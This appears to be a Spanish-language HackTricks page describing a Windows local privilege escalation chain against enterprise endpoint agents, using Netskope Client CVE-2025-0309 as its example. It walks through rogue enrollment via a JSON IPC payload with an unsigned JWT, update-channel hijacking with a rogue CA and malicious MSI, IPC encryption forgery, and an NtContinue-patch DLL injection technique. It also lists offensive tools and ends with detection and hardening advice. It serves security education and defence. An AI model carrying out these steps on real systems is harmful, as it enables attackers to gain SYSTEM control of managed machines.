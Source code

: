 # Abusing Enterprise Auto-Updaters and Privileged IPC (p. ej., Netskope stAgentSvc)

{{#include ../../banners/hacktricks-training.md}}

Esta página generaliza una clase de cadenas de escalada de privilegios locales en Windows encontradas en agentes de endpoint empresariales y updaters que exponen una superficie IPC de baja fricción y un flujo de actualización privilegiado. Un ejemplo representativo es Netskope Client for Windows < R129 (CVE-2025-0309), donde un usuario de bajos privilegios puede forzar el registro en un servidor controlado por el atacante y luego entregar un MSI malicioso que instala el servicio SYSTEM.

Ideas clave que puedes reutilizar contra productos similares:
- Abusar del localhost IPC de un servicio privilegiado para forzar el re‑registro o la reconfiguración hacia un servidor controlado por el atacante.
- Implementar los endpoints de actualización del proveedor, entregar una Trusted Root CA maliciosa y apuntar el updater a un paquete malicioso “signed”.
- Eludir verificaciones de firmante débiles (CN allow‑lists), flags de digest opcionales y propiedades laxas de MSI.
- Si el IPC está “encrypted”, derivar la key/IV a partir de identificadores de máquina legibles por todos almacenados en el registry.
- Si el servicio restringe los llamantes por image path/process name, inyectar en un proceso en la allow‑list o spawnear uno suspended y bootstrapear tu DLL vía un parche mínimo de thread‑context.

---
## 1) Forcing enrollment to an attacker server via localhost IPC

Muchos agentes incluyen un proceso UI en user‑mode que se comunica con un servicio SYSTEM vía localhost TCP usando JSON.

Observed in Netskope:
- UI: stAgentUI (integridad baja) ↔ Service: stAgentSvc (SYSTEM)
- Comando IPC ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Flujo de explotación:
1) Crea un token de registro JWT cuyas claims controlen el host backend (p. ej., AddonUrl). Usa alg=None para que no se requiera firma.
2) Envía el mensaje IPC invocando el comando de provisioning con tu JWT y el nombre del tenant:
```json
{
"148": {
"idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
"tenantName": "TestOrg"
}
}
```
3) El servicio comienza a contactar tu servidor malicioso para enrollment/config, p. ej.:
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Notas:
- Si la verificación del llamador se basa en ruta/nombre, origina la solicitud desde un binario del proveedor en la lista permitida (ver §4).

---
## 2) Secuestrar el canal de actualizaciones para ejecutar código como SYSTEM

Una vez que el cliente se comunique con tu servidor, implementa los endpoints esperados y redirígelo a un MSI del atacante. Secuencia típica:

1) /v2/config/org/clientconfig → Devuelve una configuración JSON con un intervalo de actualización muy corto, p. ej.:
```json
{
"clientUpdate": { "updateIntervalInMin": 1 },
"check_msi_digest": false
}
```
2) /config/ca/cert → Devuelve un certificado CA en formato PEM. El servicio lo instala en el Local Machine Trusted Root store.
3) /v2/checkupdate → Proporciona metadata que apunta a un MSI malicioso y una versión falsa.

Bypassing common checks seen in the wild:
- Signer CN allow‑list: el servicio puede solo comprobar que el Subject CN sea “netSkope Inc” o “Netskope, Inc.”. Tu CA malintencionada puede emitir un leaf con ese CN y firmar el MSI.
- CERT_DIGEST property: incluye una propiedad MSI benigna llamada CERT_DIGEST. No hay aplicación en la instalación.
- Optional digest enforcement: un flag de config (p. ej., check_msi_digest=false) deshabilita validación criptográfica adicional.

Resultado: el servicio SYSTEM instala tu MSI desde
C:\ProgramData\Netskope\stAgent\data\*.msi
ejecutando código arbitrario como NT AUTHORITY\SYSTEM.

---
## 3) Forging encrypted IPC requests (when present)

Desde R127, Netskope envolvió el JSON de IPC en un campo encryptData que parece Base64. El reversing mostró AES con key/IV derivados de valores de registro legibles por cualquier usuario:
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

Los atacantes pueden reproducir la encriptación y enviar comandos encriptados válidos desde un usuario estándar. Consejo general: si un agent de repente “encripta” su IPC, busca device IDs, product GUIDs, install IDs bajo HKLM como material.

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

Algunos servicios intentan autenticar al peer resolviendo el PID de la conexión TCP y comparando la ruta/nombre de la imagen contra binarios allow‑listed del vendor ubicados bajo Program Files (p. ej., stagentui.exe, bwansvc.exe, epdlp.exe).

Dos bypass prácticos:
- DLL injection en un proceso allow‑listed (p. ej., nsdiag.exe) y proxear IPC desde dentro de él.
- Spawn de un binario allow‑listed en estado suspended y bootstrap de tu proxy DLL sin CreateRemoteThread (ver §5) para satisfacer reglas de tamper impuestas por drivers.

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

Los productos suelen incluir un driver con minifilter/OB callbacks (p. ej., Stadrv) para eliminar derechos peligrosos de handles a procesos protegidos:
- Process: remueve PROCESS_TERMINATE, PROCESS_CREATE_THREAD, PROCESS_VM_READ, PROCESS_DUP_HANDLE, PROCESS_SUSPEND_RESUME
- Thread: restringe a THREAD_GET_CONTEXT, THREAD_QUERY_LIMITED_INFORMATION, THREAD_RESUME, SYNCHRONIZE

Un loader user‑mode fiable que respeta estas restricciones:
1) CreateProcess de un binario del vendor con CREATE_SUSPENDED.
2) Obtener handles que aún puedes: PROCESS_VM_WRITE | PROCESS_VM_OPERATION en el proceso, y un thread handle con THREAD_GET_CONTEXT/THREAD_SET_CONTEXT (o solo THREAD_RESUME si parcheas código en un RIP conocido).
3) Sobrescribir ntdll!NtContinue (u otro thunk temprano garantizado mapeado) con un stub mínimo que llame a LoadLibraryW sobre la ruta de tu DLL, y luego salte de vuelta.
4) ResumeThread para disparar tu stub in‑process, cargando tu DLL.

Porque nunca usaste PROCESS_CREATE_THREAD o PROCESS_SUSPEND_RESUME sobre un proceso ya protegido (tú lo creaste), la política del driver queda satisfecha.

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) automatiza una rogue CA, firma de MSI malicioso, y sirve los endpoints necesarios: /v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate.
- UpSkope es un IPC client custom que crea mensajes IPC arbitrarios (opcionalmente AES‑encriptados) e incluye la inyección por proceso suspendido para originar desde un binario allow‑listed.

---
## 7) Detection opportunities (blue team)
- Monitoriza adiciones al Local Machine Trusted Root. Sysmon + registry‑mod eventing (ver SpecterOps guidance) funciona bien.
- Marca ejecuciones de MSI iniciadas por el servicio del agent desde rutas como C:\ProgramData\<vendor>\<agent>\data\*.msi.
- Revisa logs del agent por hosts/tenants de enrolamiento inesperados, p. ej.: C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – busca addonUrl / tenant anomalies y provisioning msg 148.
- Alerta sobre clientes IPC localhost que no sean los binarios firmados esperados, o que se originen desde árboles de procesos inusuales.

---
## Hardening tips for vendors
- Ata los hosts de enrolamiento/update a una allow‑list estricta; rechaza dominios no confiables en clientcode.
- Autentica peers de IPC con primitivas del OS (ALPC security, named‑pipe SIDs) en lugar de checks por ruta/nombre de imagen.
- Mantén material secreto fuera de HKLM legible por el mundo; si IPC debe estar encriptado, deriva keys de secretos protegidos o negocia sobre canales autenticados.
- Trata el updater como una superficie de supply‑chain: requiere una cadena completa hacia una CA de confianza que controles, verifica firmas de paquetes contra keys pinned, y falla cerrado si la validación está deshabilitada en la config.

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

{{#include ../../banners/hacktricks-training.md}}
